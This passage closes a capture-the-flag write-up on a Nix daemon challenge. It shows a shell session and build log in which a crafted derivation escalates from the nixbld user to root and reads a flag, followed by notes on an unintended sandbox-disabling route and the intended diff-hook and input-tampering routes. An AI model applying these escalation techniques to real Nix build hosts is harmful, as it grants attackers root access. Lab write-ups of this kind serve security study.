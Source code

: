 ```
> EOF

[user@nixos:~]$ cat >stage2.nix <<-'EOF'
> let
  pkgs = import (builtins.getEnv "PKGS") { };
in
pkgs.runCommand "meow2" { } ''
  echo MEOW2
  id -a
  ls / || true
  ls /data || true
  cat /data/*
''
> EOF

[user@nixos:~]$ nix-build stage1.nix
warning: Nix search path entry '/nix/var/nix/profiles/per-user/root/channels' does not exist, ignoring
these 2 derivations will be built:
  /nix/store/gzniydj0mayvzs7hin3v3j1643fjzrq3-hax.drv
  /nix/store/m4gjzvkjks5n1zr54cxjzmwav0g9zzj1-meow.drv
these 11 paths will be fetched (3.92 MiB download, 23.41 MiB unpacked):
<SNIP>
building '/nix/store/gzniydj0mayvzs7hin3v3j1643fjzrq3-hax.drv'...
warning: Option 'accept-flake-config' is too dangerous, skipping.
warning: Option 'allow-new-privileges' is too dangerous, skipping.
warning: Option 'build-hook' is too dangerous, skipping.
warning: Option 'post-build-hook' is too dangerous, skipping.
warning: Option 'pre-build-hook' is too dangerous, skipping.
building '/nix/store/m4gjzvkjks5n1zr54cxjzmwav0g9zzj1-meow.drv'...
uid=1000(nixbld) gid=100(nixbld) groups=100(nixbld)
this derivation will be built:
  /nix/store/nv5j8z6w8zw0s6gjrmajy0wn7f2azfc0-meow2.drv
warning: Option 'accept-flake-config' is too dangerous, skipping.
warning: Option 'allow-new-privileges' is too dangerous, skipping.
warning: Option 'build-hook' is too dangerous, skipping.
warning: Option 'post-build-hook' is too dangerous, skipping.
warning: Option 'pre-build-hook' is too dangerous, skipping.
building '/nix/store/nv5j8z6w8zw0s6gjrmajy0wn7f2azfc0-meow2.drv'...
MEOW2
uid=0(root) gid=0(root) groups=0(root)
bin   dev  home  lib64  proc  run  sys  usr
data  etc  lib   nix    root  srv  tmp  var
flag
kalmar{0nlyReproduc1bleMisconfigurationsH3R3}
```

I was informed later that I found an unintended solution, and one was not
supposed to "simply set `sandbox = false`". The intended solution was to either
use the `diff-hook` setting which is run as the daemon's user (like
`post-build-hook` and `build-hook` which were conspicuously also banned), or
abuse being root to tamper with the inputs to the derivation and overwriting
something run by a privileged user.

I don't think the unintended solution was that bad, though, because once you
are trusted user, it is assumed in the Nix codebase that you can just root the
box.
